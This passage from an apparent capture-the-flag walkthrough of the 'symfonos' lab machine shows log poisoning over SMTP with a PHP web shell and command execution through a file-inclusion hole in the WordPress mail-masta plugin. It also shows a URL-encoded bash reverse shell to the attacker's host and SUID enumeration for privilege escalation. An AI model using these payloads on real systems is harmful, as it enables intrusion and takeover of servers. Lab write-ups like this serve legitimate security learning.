 
### RCE
```
$ telnet 192.168.109.131 25
Trying 192.168.109.131...
Connected to 192.168.109.131.
Escape character is '^]'.
220 symfonos.localdomain ESMTP Postfix (Debian/GNU)
MAIL FROM: <jack>
250 2.1.0 Ok
RCPT TO: Helios
250 2.1.5 Ok
data
354 End data with <CR><LF>.<CR><LF>
<?php system($_GET['cmd']); ?>
.
250 2.0.0 Ok: queued as 320EF40830
421 4.4.2 symfonos.localdomain Error: timeout exceeded
Connection closed by foreign host.  
```
```
http://symfonos.local/h3l105//wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/var/mail/helios&cmd=id
```

![](https://i.imgur.com/srQX3Vu.png)

### Reverse Shell
```
$ nc -lvp 8787
```
```
http://symfonos.local/h3l105//wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/var/mail/helios&cmd=%2Fbin%2Fbash%20-c%20%27exec%20bash%20-i%20%26%3E%2Fdev%2Ftcp%2F192.168.109.128%2F8787%20%3C%261%27
```

## Privilege Escalation
### SUID
```
$ find / -perm -u=s -type f 2>/dev/null
/usr/lib/eject/dmcrypt-get-device
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/bin/passwd
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/chfn
/opt/statuscheck
/bin/mount
/bin/umount
/bin/su
/bin/ping
```
### /opt/statuscheck
```
$ /opt/statuscheck
/opt/statuscheck
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0   328    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0
HTTP/1.1 200 OK
```